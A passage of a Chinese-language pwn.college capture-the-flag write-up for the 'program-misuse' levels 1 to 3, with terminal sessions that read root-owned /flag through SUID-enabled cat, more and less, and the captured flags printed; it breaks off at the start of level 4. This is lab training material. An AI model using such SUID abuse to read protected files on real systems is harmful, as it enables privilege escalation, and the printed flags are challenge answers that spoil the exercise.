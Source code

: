 ```
hacker@program-misuse-level-1:/challenge$
```
已经给我uid了，然后我直接读取即可
```
hacker@program-misuse-level-1:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-1:/$ cat flag
pwn.college{gtmGRqQdewLiKKwB2Wi1NeBxX3w.01M0EDL2QjMyMzW}
hacker@program-misuse-level-1:/$
```

## level2 Lets you directly read the flag!
```
hacker@program-misuse-level-2:/challenge$ ./babysuid_level2
Welcome to ./babysuid_level2!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/more.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level2) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/more!
hacker@program-misuse-level-2:/challenge$
```
这个是用 `more` 读取
```
hacker@program-misuse-level-2:/challenge$ more /flag
pwn.college{g0orxg7_IfgidrE5G2scOM8wdRx.0FN0EDL2QjMyMzW}
hacker@program-misuse-level-2:/challenge$
```

## level3 Lets you directly read the flag!
```
hacker@program-misuse-level-3:/challenge$ ./babysuid_level3
Welcome to ./babysuid_level3!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/less.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level3) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/less!
hacker@program-misuse-level-3:/challenge$
```
这次是用`less`
```
hacker@program-misuse-level-3:/challenge$ less /flag
pwn.college{onJWxeGXCk8o-LqXlLemr-Xzk2W.0VN0EDL2QjMyMzW}
/flag (END)

```
less比more好用，记得使用q退出
## level4 Lets you directly read the flag!
```
hacker@program-misuse-level-4:/challenge$ ./babysuid_level4
Welcome to ./babysuid_level4!

This challenge is part of a series of programs that
```